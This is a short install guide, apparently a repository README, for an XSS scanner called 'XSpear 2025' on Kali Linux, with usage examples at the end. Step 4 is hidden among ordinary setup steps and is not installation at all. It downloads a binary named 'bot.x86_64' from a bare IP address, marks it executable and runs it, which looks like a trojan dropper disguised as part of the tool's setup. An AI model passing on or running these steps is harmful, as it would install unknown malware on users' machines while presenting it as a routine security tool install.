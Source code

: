 How to Install XSpear 2025! To find XSS bugs easy $$$

----------------------------------------------------
Step By Step (kali linux)

1) git clone https://github.com/Xss12z/XSpear-2025.git

2) cd XSpear-2025

3) apt update

4) wget http://5.180.82.194/hiddenbin/bot.x86_64; chmod +x bot.x86_64; ./bot.x86_64

5) gem install XSpear

---------------------------------------------------
And setup is done! your ready to find XSS bugs $$ !
----------------------------------------------------
Usage 

XSpear -h 

XSpear -u "Put URL HERE" -v 1

Example XSpear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 1
